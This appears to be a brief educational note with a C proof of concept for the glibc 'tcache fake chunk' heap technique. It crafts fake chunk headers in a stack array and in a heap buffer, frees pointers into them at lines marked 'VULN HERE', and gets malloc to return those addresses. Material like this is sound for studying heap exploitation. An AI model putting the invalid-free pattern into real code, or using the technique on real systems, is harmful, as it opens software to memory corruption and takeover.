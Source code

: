 ## tcache fake chunk

**Purpose**: Effectively write some data somewhere in memory we know, to make it look like a heap chunk.

**Mitigation**: Nothing to bypass, since tcache doesn't have many protections.

## PoC

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);

    long *ptr1[10], *ptr2, *chunk0, *chunk1;
    malloc(1); // init heap

    ptr1[0] = 0x0; // prev_size (ignored)
    ptr1[1] = 0x21; // size (must be in tcache range)
    ptr1[2] = 0; // fd (ignored)
    ptr1[3] = 0; // bk (ignored)

    /* VULN HERE */
    free(&ptr1[2]);
    /* VULN HERE */

    // create fake chunk inside a large chunk
    ptr2 = malloc(0x50);
    ptr2[0] = 0x0; // prev_size (ignored)
    ptr2[1] = 0x21; // size (must be in tcache range)
    ptr2[2] = 0; // fd (ignored)
    ptr2[3] = 0; // bk (ignored)

    /* VULN HERE */
    free(&ptr2[2]);
    /* VULN HERE */

    chunk0 = malloc(0x10); // from ptr2
    chunk1 = malloc(0x10); // from ptr1

    printf("chunk0: %p\n", chunk0);
    printf("chunk1: %p\n", chunk1);

    return 0;
}
```
